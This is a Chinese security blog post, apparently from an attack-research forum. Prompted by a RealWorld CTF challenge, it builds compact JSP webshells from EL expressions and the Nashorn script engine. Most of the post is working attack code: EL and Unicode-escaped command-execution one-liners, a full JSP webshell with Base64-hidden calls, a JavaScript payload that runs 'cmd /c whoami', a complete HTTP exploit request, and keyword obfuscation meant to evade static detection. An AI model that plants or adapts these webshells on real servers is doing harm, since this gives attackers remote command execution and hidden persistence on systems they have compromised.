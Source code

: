 0x0 RWCTF引发的思考
--------------

​ 前段时间结束的Realworld ctf里有一道题目**DesperateCat**，这道题目考察的是严苛环境下写webshell的问题，对于写入文件内容的限制其中有一点：

- **禁止传入圆括号、尖括号、引号等**。

​ 如果我们单独处理bypass，那么其实很好解决：

1. 尖括号 &lt;% %&gt;：使用EL表达式

```java
//<%Runtime.getRuntime.exec(request.getParameter("cmd"));%>
//替换成为
${Runtime.getRuntime().exec(param.cmd)}
```

这样就避免出现了尖括号。

2.圆括号 () : java 代码编译解析器会识别 Unicode 形式的编码，所可以直接unicode

```java
//<%Runtime.getRuntime().exec("calc");%>
<%\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u002e\u0067\u0065\u0074\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0028\u0029\u002e\u0065\u0078\u0065\u0063\u0028\u0022\u0063\u0061\u006c\u0063\u0022\u0029\u003b%>
```

但是要完全bypass，显然两者都是不行的，那么最终的方式是采用EL表达式中的 **'.'** 与 **'='** 。

- **EL中 . 点号属性取值相当于执行对象的 getter 方法，**= **赋值则等同于执行 setter 方法。**

```java
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
//等同于
pageContext.getServletContext().getClassLoader().getResources().getContext().getManager().setPathname(request.getParameter("a"));
```

通过这种方式我们可以获得ClassLoader修改一些tomcat的属性，最终达到利用session写shell的目的，当然到目前这道题目只是完成了一小部分，后面还涉及到如何使Tomcat reload 并实现持久化贮存session的问题等等，各位感兴趣的可以看一下长亭官方的wp。

​ **这道题目使用EL表达式进行bypass的方式引起了我的注意，通过精心构造EL表达式我们是否能实现更加精简且具有一定bypass能力的jsp webshell？**

0x01 简单尝试与回显问题
==============

我们使用开头提到的EL表达式来试一试：

```php
${Runtime.getRuntime().exec(param.cmd)}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-420ee4be629fb1eb3952fa5c05a853144131090f.png)  
执行是没有问题的，但是我们要制作webshell，没有回显是肯定不行的，这里我联想到了前段时间学习webshell免杀的一种构造方式：**调用ScriptEngine来执行js**。

> 我们使用ScriptEngine构造出的webshell是这样的：
> 
> ```php
> <%@ page import="javax.script.ScriptEngineManager" %>
> <%@ page import="java.util.Base64" %>
> <%@ page import="java.io.BufferedReader" %>
> <%@ page import="java.io.InputStreamReader" %>
> <%@ page contentType="text/html;charset=UTF-8" language="java" %>
> <%
>     String s = "s=[3];s[0]='cmd';s[1]='/c';s[2]='";
>     String cmd = request.getParameter("cmd");
>     String rt = new String(Base64.getDecoder().decode("JztqYXZhLmxhbmcuUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYyhzKTs="));
>     Process process = (Process) new ScriptEngineManager().getEngineByName("nashorn").eval(s + cmd + rt);
>     InputStreamReader reader = new InputStreamReader(process.getInputStream());
>     BufferedReader buffer = new BufferedReader(reader);
>     s = null;
>     while ((s = buffer.readLine()) != null) {
>         response.getWriter().println(s);
>     }
> %>
> ```
> 
> 很好理解，获取nashorn JavaScript引擎实现命令执行。

想到这种方法是因为我们可以尽可能的减少webshell中的代码量，通过传递指定的js代码来执行脚本，从而更好地绕过文件内容检测。

0x02 EL + ScriptEngine
======================

首先我们在webshell中通过反射配合动态传递参数的方式获取Engine并执行eval。

```java
//test.jsp
${''.getClass().forName(param.spr1).newInstance().getEngineByName("javascript").eval(param.spr2)}
```

首先反射获取ScriptEngineManager对象：

```php
test.jsp?spr1=javax.script.ScriptEngineManager
```

然后调用js引擎执行脚本，我们将上方给出的ScriptEngine版本的webshell进行改造，将其改造成js版本：

```php
try{
    load("nashorn:mozilla_compat.js");
}
catch (e){
}
importPackage(Packages.java.util);
importPackage(Packages.java.lang);
importPackage(Packages.java.io);
s=[2];
s[0]='cmd';
s[1]='/c whoami /all';
a="";
b=java.lang.Runtime.getRuntime().exec(s).getInputStream();
output+=new BufferedReader(new+InputStreamReader(b));
while ((line=output.readLine()) != null) 
{
    o=o+line+"\n"
};o
```

然后我们将其传入执行js，最终的包长这样

```php
POST /test.jsp?spr1=javax.script.ScriptEngineManager HTTP/1.1
Host: 172.20.10.2:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=4A34A77B78CD48404804BFD7420A0195
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 414

spr2=try{load("nashorn%3amozilla_compat.js")%3b}catch(e){}importPackage(Packages.java.util)%3bimportPackage(Packages.java.lang)%3bimportPackage(Packages.java.io)%3bs%3d[2]%3bs[0]%3d'cmd'%3bs[1]%3d'/c+whoami'%3ba%3d""%3bb%3djava.lang.Runtime.getRuntime().exec(s).getInputStream()%3boutput+%3d+new+BufferedReader(new+InputStreamReader(b))%3bwhile+((line%3doutput.readLine())+!%3d+null)+{a%3da%2bline%2b"\n"}%3ba
```

然后执行，没有问题。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-cb8c1f40375af7f16ef1848284c0a7041b52bb23.png)

0x03 进一步混淆
==========

虽然已经可以通过传递指定js脚本执行命令，但仔细来看

```jsp
${''.getClass().forName(param.spr1).newInstance().getEngineByName("javascript").eval(param.spr2)}
```

这段代码还是包含了一些较为敏感的关键字，譬如forName、getEngineByName、eval等，作为一个webshell来讲，显然是不够“干净整洁”的；为进一步混淆，我们可以采用动态传递的方式来替换关键字。

在EL表达式中，我们知道获取属性可以使用a.b或者a\['b'\]，使用后者就意味着我们可以把所有属性和方法转化成字符串：

```php
${""["getClass"]()["forName"]("javax.script.ScriptEngineManager")["newInstance"]()["getEngineByName"]("JavaScript")["eval"]("...")}
```

那么这样做有什么好处呢？

首先我们可以**随意拼接**：

```php
${""["ge"+"tCl"+"ass"]()["for"+"Name"]("javax.scr"+"ipt.ScriptEng"+"ineManager")["newIn"+"stance"]()["getEng"+"ineByName"]("Java"+"Script")["e"+"val"]("...")}
```

更重要的是如此我们可以**将字符串通过param.xxx**来传递，这样就可以实现如下的改造：

```php
${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}
```

测试后可以执行：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a031665e34e5ede2610a3e482aff6f691b867aa9.png)

这种高度精简就实现了将绝大部分代码通过传递来执行，应当具有较好的静态免杀能力。

0x04 总结
=======

这个小思路也是启发于这位师傅，同时也想到了之前的RWCTF中的题目，而从本质上讲也许可以把它看作是EL表达式注入的另类使用。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-b3df826b2bba42b5c45e15ed28927f2f94378e0b.png)

我们从最初的

```php
${Runtime.getRuntime().exec(param.cmd)}
```

到

```php
${''.getClass().forName(param.spr1).newInstance().getEngineByName("javascript").eval(param.spr2)}
```

再到

```php
${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}
```

可以发现这种webshell的优势也很明显：

- **足够小，一句话就可以实现命令执行+回显的功能**。
- **避免出现&lt;%、Class、eval等敏感字符，具有bypass能力**。

当然这只是个demo，它还可以更美观比如将cmd通过占位符提取出来放到headers里；再比如我们的body有点臃肿，我们直接用python封装实现一个交互式shell也不错。